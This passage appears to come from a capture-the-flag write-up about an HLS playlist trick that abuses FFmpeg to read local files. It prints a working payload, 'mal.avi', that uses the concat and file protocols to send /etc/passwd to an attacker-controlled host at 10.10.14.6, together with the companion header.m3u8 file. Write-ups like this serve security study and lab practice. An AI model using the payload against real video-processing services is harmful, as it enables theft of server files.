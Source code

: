 ### Enumerate

With I’ll add the `adminToken` to the local storage in Dev Tools:

![image-20220727202344018](https://0xdfimages.gitlab.io/img/image-20220727202344018.png)

Now when I go to `/uploads`, select a small `.mkv` file, and click Submit, there’s a message suggesting it was successful:

![image-20220727202426297](https://0xdfimages.gitlab.io/img/image-20220727202426297.png)

### ffmpeg

#### Strategy

The text on the upload page says the video will be “converted on the backend”. This implies some kind of automated processing of the uploaded video. If a Linux tool is being used on the video, it is almost certainly [FFmpeg](https://ffmpeg.org/).

#### Local File Read POC

Some Googling for recent vulnerabilities in FFmpeg turns up [this hackerone report](https://hackerone.com/reports/1062888), which shows how to abuse FFmpeg with a SSRF and a local file read.

First I’ll create a `header.m3u8` file in a web directory. It’s important that that file not have anything after that last `?` character ([this StackOverflow answer](https://stackoverflow.com/a/16114535) shows how to do that in `vim`), which can be verified with `xxd`:

```

oxdf@hacky$ vim -b header.m3u8 
oxdf@hacky$ xxd header.m3u8
00000000: 2345 5854 4d33 550a 2345 5854 2d58 2d4d  #EXTM3U.#EXT-X-M
00000010: 4544 4941 2d53 4551 5545 4e43 453a 300a  EDIA-SEQUENCE:0.
00000020: 2345 5854 494e 463a 2c0a 6874 7470 3a2f  #EXTINF:,.http:/
00000030: 2f31 302e 3130 2e31 342e 363f            /10.10.14.6?

```

Next, `mal.avi` just will trigger the call to get `header.m3u8`:

```

#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.6/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST

```

It’s using the FFmpeg `concat` [protocol](https://ffmpeg.org/ffmpeg-protocols.html#concat) and `file` [protocol](https://ffmpeg.org/ffmpeg-protocols.html#file) to and exploiting a bug that will cause that URL to be visited, leaking (at least part of) the file.
